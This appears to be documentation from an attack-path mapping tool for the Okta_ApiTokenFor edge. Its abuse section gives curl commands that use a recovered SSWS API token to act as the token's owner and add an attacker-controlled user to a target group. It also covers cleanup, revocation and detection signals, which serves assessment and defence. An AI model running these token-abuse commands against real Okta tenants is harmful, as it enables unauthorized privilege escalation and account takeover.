

## General Information

The traversable Okta_ApiTokenFor edges represent the API token assignments for users in Okta, represented by the Okta_User nodes:



## Abuse Info

An attacker who obtains the raw SSWS API token represented by the source `Okta_ApiToken` can call Okta Management API endpoints as the destination `Okta_User`. OpenHound only collects token metadata such as token ID, owner, client name, creation time, and network restrictions; it does not collect the token value. The token value must be recovered from a script, CI/CD secret, workstation, server configuration, password manager, shell history, or another storage location.

The token inherits the destination user's effective Okta permissions. If the destination user has privileged edges such as `Okta_SuperAdmin`, `Okta_OrgAdmin`, `Okta_GroupAdmin`, `Okta_AppAdmin`, or custom-role-derived edges, the token can usually exercise the same API permissions without an interactive browser session. If the token has an API token network condition, the request must originate from an allowed IP range.

Using the Admin Console:

1. If you also control the destination user interactively, sign in to the Admin Console as that user and browse to **Security** > **API** > **Tokens** to review the token name, creation time, owner, and network condition.
2. Match the graph source `Okta_ApiToken` to the Admin Console token record by token ID, client name, owner, and timestamps.
3. Use the Admin Console only for inspection or for actions that require a browser workflow. The actual abuse of this edge is API-based because the source credential is an SSWS token.
4. Continue with the API steps and perform only actions allowed by the destination user's admin roles.

Using the Okta API:

1. Set the Okta org URL and the recovered source token value.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export COMPROMISED_SSWS_TOKEN="REDACTED"
    export DESTINATION_USER_ID="00u..."
    ```

2. Verify that the token is valid and identify the user linked to the API token.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $COMPROMISED_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/me" \
      | jq -r '{id, status, login: .profile.login, provider: .credentials.provider}'
    ```

    A successful response returns the destination user. A `403` on a later endpoint does not mean the token is invalid; it may only mean the destination user lacks that specific permission.

3. Enumerate a low-impact object that matches an adjacent edge. For example, if the path continues through an app-admin or read-client-secret edge, verify app read access first.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $COMPROMISED_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps?limit=1" \
      | jq -r '.[] | [.id, .label, .status] | @tsv'
    ```

4. Use the token for the privileged action represented by the destination user's adjacent edges. For example, if the destination user can add members to a target group, add a controlled user to that group.

    ```bash
    export TARGET_GROUP_ID="00g..."
    export ATTACKER_USER_ID="00u..."

    curl -i -sS -X PUT \
      -H "Authorization: SSWS $COMPROMISED_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$ATTACKER_USER_ID"
    ```

    A successful group-membership add returns `204 No Content`.

5. Verify the action before continuing down the attack path.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $COMPROMISED_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users" \
      | jq -r --arg user "$ATTACKER_USER_ID" '.[] | select(.id == $user) | [.id, .profile.login] | @tsv'
    ```

## Cleanup after Abuse

Cleanup for `Okta_ApiTokenFor` means revoking the exposed source API token and reversing every Okta change made with the destination user's API authority.

Cleanup using Admin Console:

1. Sign in as an administrator who can manage API tokens.
2. Go to **Security** > **API** > **Tokens**.
3. Locate the source token by token ID, token name, client name, destination user, creation time, or network condition.
4. Revoke the exposed token. If the token belongs to an Okta agent or integration, coordinate replacement first so the legitimate service is not broken unexpectedly.
5. Reverse any changes made with the token, such as temporary group membership, app assignments, app credential changes, user lifecycle changes, or policy changes.
6. Review the destination user's recent API token activity and revoke any additional tokens that were created during the operation.
7. Verify the old token no longer works from both the original allowed network and the attack infrastructure network if they differ.

Cleanup using API:

1. Set variables for a cleanup credential, the exposed token metadata, and any temporary access created during abuse.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export CLEANUP_SSWS_TOKEN="REDACTED"
    export COMPROMISED_SSWS_TOKEN="REDACTED_EXPOSED_TOKEN_VALUE"
    export EXPOSED_API_TOKEN_ID="00T..."
    export DESTINATION_USER_ID="00u..."
    export TARGET_GROUP_ID="00g..."
    export ATTACKER_USER_ID="00u..."
    ```

2. If the token ID is not known, list active API token metadata and filter by the destination user or token client name. Follow pagination if the response includes a `Link` header.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $CLEANUP_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/api-tokens?limit=200" \
      | jq -r --arg user "$DESTINATION_USER_ID" '.[] | select(.userId == $user) | [.id, .name, .clientName, .created, .lastUpdated, .expiresAt] | @tsv'
    ```

3. Remove temporary group membership or other objects created through adjacent edges.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $CLEANUP_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$ATTACKER_USER_ID"
    ```

    A successful removal returns `204 No Content`.

4. Revoke the exposed token. If the cleanup credential is the exposed token itself, use `/api/v1/api-tokens/current`; otherwise revoke by token ID.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $CLEANUP_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/api-tokens/$EXPOSED_API_TOKEN_ID"
    ```

    A successful revoke returns `204 No Content`.

5. Revoke sessions and OAuth tokens for accounts modified during the operation when the operation created browser or bearer-token access.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $CLEANUP_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$ATTACKER_USER_ID/sessions?oauthTokens=true"
    ```

6. Verify the exposed token no longer authenticates.

    ```bash
    curl -i -sS \
      -H "Authorization: SSWS $COMPROMISED_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/me"
    ```

    A revoked token should fail with an authorization error.

7. Verify the token metadata is gone or inaccessible.

    ```bash
    curl -i -sS \
      -H "Authorization: SSWS $CLEANUP_SSWS_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/api-tokens/$EXPOSED_API_TOKEN_ID"
    ```

    A successfully revoked token should return `404 Not Found` or no longer appear in the active token list.

## Opsec Considerations

SSWS API token use is noisy when it comes from new infrastructure, violates an API token network condition, or performs actions that do not match the token's historical client name. Relevant System Log event types include `system.api_token.create`, `system.api_token.revoke`, `system.api_token.update`, and `system.api_token.request_outside_allowed_range`. The privileged API calls made with the token also generate their own object-specific events, such as group membership, user lifecycle, app assignment, app credential, role assignment, and policy events.

Defenders can correlate the token ID, destination user, client name, source IP, user agent, and request URI across System Log entries. Long-dormant tokens that suddenly call management endpoints, tokens used outside their expected network zones, and tokens whose owner recently gained an admin role are high-signal investigation points.

## References

- [Okta API Tokens API](https://developer.okta.com/docs/reference/api/api-tokens/)
- [Okta Management API authentication](https://developer.okta.com/docs/api/openapi/okta-management/guides/overview/)
- [Okta Users API: Retrieve the current user](https://developer.okta.com/docs/api/resources/users/#retrieve-a-user)
- [Okta Group API: Assign a user to a group](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/Group/#tag/Group/operation/assignUserToGroup)
- [Okta User Sessions API: Revoke all user sessions](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/UserSessions/#tag/UserSessions/operation/revokeUserSessions)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [Okta manage API tokens](https://help.okta.com/oie/en-us/content/topics/security/api.htm)
- [Okta Post-Exploitation Toolkit](https://github.com/xpn/OktaPostExToolkit)
